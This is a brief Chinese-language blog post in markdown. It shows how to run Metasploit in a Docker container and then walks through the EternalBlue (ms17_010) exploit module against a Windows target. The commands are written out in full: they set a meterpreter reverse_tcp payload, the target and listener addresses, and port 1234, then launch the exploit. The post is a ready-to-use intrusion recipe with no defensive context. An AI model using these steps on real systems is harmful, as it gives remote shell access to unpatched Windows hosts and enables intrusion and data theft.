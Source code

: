 ```yaml
---
layout: post
title: docker 版本安装 msf 
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```


# 简介

创建容器：

docker run -it -d --name msf -p 1234:1234 linuxkonsult/kali-metasploit  

进入容器：

docker exec -it msf /bin/bash

## 利用ms17_010_eternalblue模块进行渗透：
打开msf框架：

msfconsole

使用ms17_010_eternalblue模块及各个配置：

use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 目标主机IP

set lhost 监听的主机IP（在这里是docker主机的IP）

set lport 监听的端口（示例中为设置的映射的端口1234）

exploit
